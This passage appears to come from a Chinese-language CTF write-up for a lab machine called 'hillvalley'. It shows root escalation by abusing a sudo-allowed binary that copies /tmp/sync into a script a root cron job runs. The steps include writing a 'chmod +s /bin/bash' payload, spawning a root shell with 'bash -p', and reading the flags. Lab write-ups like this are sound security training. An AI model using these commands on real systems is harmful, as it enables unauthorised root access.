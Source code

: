 发现`docbrown`可以免密以`root`身份运行`/usr/local/bin/time_daemon`。尝试执行该程序，得到报错信息：

```bash
docbrown@hillvalley:/home/docbrown$ sudo /usr/local/bin/time_daemon
[FLUX] No existe el archivo /tmp/sync: No such file or directory
```

程序试图访问`/tmp/sync`文件。这与之前在`marty`用户下发现的`crontab`条目联系了起来：

```bash
marty@hillvalley:~$ cat /etc/crontab
...
* * * * * root /usr/local/bin/flux_admin.sh
marty@hillvalley:~$ ls -al /usr/local/bin/flux_admin.sh
ls: cannot access '/usr/local/bin/flux_admin.sh': No such file or directory
marty@hillvalley:~$ ls -al /usr/local/bin/
total 40
drwxr-xr-x  2 root root  4096 Jul 14 21:53 .
drwxr-xr-x 10 root root  4096 Jul 11 21:56 ..
-rwxr-xr-x  1 root root 16200 Jul 12 20:49 backup_runner
-rwx------  1 root root 16296 Jul 14 20:44 time_daemon
```

定时任务每分钟都以`root`权限执行一个当时还不存在的脚本`/usr/local/bin/flux_admin.sh`。这里的提权思路是：猜测`time_daemon`会复制`/tmp/sync`去`flux_admin.sh`

1. **创建Payload**：在`/tmp`目录下创建`sync`文件，内容是我们的提权命令。

```bash
docbrown@hillvalley:/home/docbrown$ echo '#!/bin/bash' > /tmp/sync
docbrown@hillvalley:/home/docbrown$ echo 'chmod +s /bin/bash' >> /tmp/sync
    docbrown@hillvalley:/home/docbrown$ chmod +x /tmp/sync
```

2. **触发文件写入**：以`root`权限执行`time_daemon`。该程序会读取`/tmp/sync`的内容，并将其写入到`/usr/local/bin/flux_admin.sh`中。

   ```bash
   docbrown@hillvalley:/home/docbrown$ sudo /usr/local/bin/time_daemon
   [88MPH] Sincronización completada. Listo para viajar.
   ```

3. **等待Cron Job执行**：等待最多一分钟，`crontab`中的定时任务会自动以`root`权限执行`/usr/local/bin/flux_admin.sh`，从而为`/bin/bash`添加SUID权限位。

4. **获取Root Shell**：检查`/bin/bash`权限，确认SUID位已设置后，执行`bash -p`获取root权限。

   ```bash
   docbrown@hillvalley:/home/docbrown$ ls -al /bin/bash
   -rwsr-sr-x 1 root root 1265648 Apr 18 19:47 /bin/bash
   docbrown@hillvalley:/home/docbrown$ bash -p
   bash-5.2# id
   uid=1000(docbrown) gid=1001(marty) euid=0(root) egid=0(root) groups=0(root),1001(marty)
   ```

5. **读取最终Flag**：

   ```bash
   bash-5.2# cat /root/root.txt /home/marty/user.txt 
   FLAG{1.21_gigawatts_of_root_power}
   FLAG{D3_L0r34n}
   ```

成功提权至`root`，渗透测试完成。